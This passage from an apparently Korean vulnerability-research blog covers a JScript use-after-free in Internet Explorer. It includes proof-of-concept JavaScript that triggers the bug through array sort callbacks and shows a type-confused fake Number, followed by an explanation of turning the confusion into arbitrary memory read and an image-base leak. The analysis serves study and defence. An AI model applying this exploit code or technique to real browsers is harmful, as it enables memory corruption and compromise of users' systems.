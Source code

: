 ```
        arr_sort[i] = new Array(1, 2);
    }
 
    for (var i = 0; i < maxnum; i++) {
        arr_uaf[i] = new Object();
    }
 
    arr_sort[0].sort(fncCompare);
 
    for (var i = 0; i < maxnum; i++) {
        if ((typeof arr_ref[i]) === "number") {
            if (arr_ref[i] === 0x1337) {
                alert( i + " / " + typeof arr_ref[i] + " / " + arr_ref[i].toString(16) );
                break;
            }
        }
    }
</script>
```


실행 결과는 다음과 같다.

| [![img](https://1.bp.blogspot.com/-Ac3KDPe1Q8s/XpW5NWkkiiI/AAAAAAAAAZw/mMaud4VRVW4PjCMsUVWvE0F8vW1MzT2JgCLcBGAsYHQ/s1600/12.png)](https://1.bp.blogspot.com/-Ac3KDPe1Q8s/XpW5NWkkiiI/AAAAAAAAAZw/mMaud4VRVW4PjCMsUVWvE0F8vW1MzT2JgCLcBGAsYHQ/s1600/12.png) |
| ------------------------------------------------------------ |
| 그림 12. 사용 중인 Object Variant                            |

| [![img](https://1.bp.blogspot.com/-DXvJzovYtbg/XpW5U59a23I/AAAAAAAAAZ0/Qs6NUabRUCEpcCy9c1BxC7zqZK8Q6dTrgCLcBGAsYHQ/s1600/13.png)](https://1.bp.blogspot.com/-DXvJzovYtbg/XpW5U59a23I/AAAAAAAAAZ0/Qs6NUabRUCEpcCy9c1BxC7zqZK8Q6dTrgCLcBGAsYHQ/s1600/13.png) |
| ------------------------------------------------------------ |
| 그림 13. Clear 및 free된 Variant                             |

| [![img](https://1.bp.blogspot.com/-mMFAxlerKWc/XpW5bpGz11I/AAAAAAAAAZ4/eqUu1eJFCO49xCVllhDdYro_aT-MxgJAQCLcBGAsYHQ/s1600/14.png)](https://1.bp.blogspot.com/-mMFAxlerKWc/XpW5bpGz11I/AAAAAAAAAZ4/eqUu1eJFCO49xCVllhDdYro_aT-MxgJAQCLcBGAsYHQ/s1600/14.png) |
| ------------------------------------------------------------ |
| 그림 14. NamedList에 의해 overlap되어 생성된 가짜 Number Variant |

| [![img](https://1.bp.blogspot.com/-C33SopK3qyE/XpW5jPkpXWI/AAAAAAAAAZ8/8WcC6kCCDFc9irSRdu8zlvE7kh9PjXlrQCLcBGAsYHQ/s1600/15.png)](https://1.bp.blogspot.com/-C33SopK3qyE/XpW5jPkpXWI/AAAAAAAAAZ8/8WcC6kCCDFc9irSRdu8zlvE7kh9PjXlrQCLcBGAsYHQ/s1600/15.png) |
| ------------------------------------------------------------ |
| 그림 15. Type Confusion된 가짜 Number를 출력한 결과          |


### Type Confusion을 이용한 Arbitrary Read

 JScript는 문자열을 [BSTR](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/automat/bstr) 형식으로 저장한다. 문자열을 나타내는 String Variant의 종류는 0x82 이고, 데이터는 BSTR의 Data String 포인터를 가리킨다. Type Confusion을 통해 가짜 String Variant를 생성할 때, BSTR의 포인터 대신 읽고자 하는 메모리 주소를 삽입한 후 문자열을 읽으면 임의 메모리 읽기가 가능하다.
 JScript의 Image Base 주소를 얻기 위해 Object 객체의 메모리를 읽어야 한다. Object 객체는 종류 0x81인 Object Variant가 가리킨다. Use After Free 취약점에 사용되는 Object Variant에 RegExp 객체를 사용할 경우, Object Variant의 데이터는 RegExp 포인터가 저장된다. GcBlock을 해제하면 VAR::Clear가 Object Variant의 종류를 0으로 설정하지만, 데이터는 지우지 않는다. 이후 해제된 GcBlock을 재사용할 때, GcBlock은 해제되기 전 Object Variant의 데이터에 존재하는 RegExp 객체 포인터를 가지고 있다. 가짜 Number Variant의 데이터로 입력한 \u1337을 입력하지 않으면, 기존에 존재하는 RegExp 객체 포인터를 읽는다. RegExp 객체를 생성할 때, 패턴을 지정하면 RegExp 객체와 컴파일된 패턴 문자열이 차례로 GcBlock에 생성된다. 패턴 문자열은 문자열이 필요한 경우 사용이 가능하다.
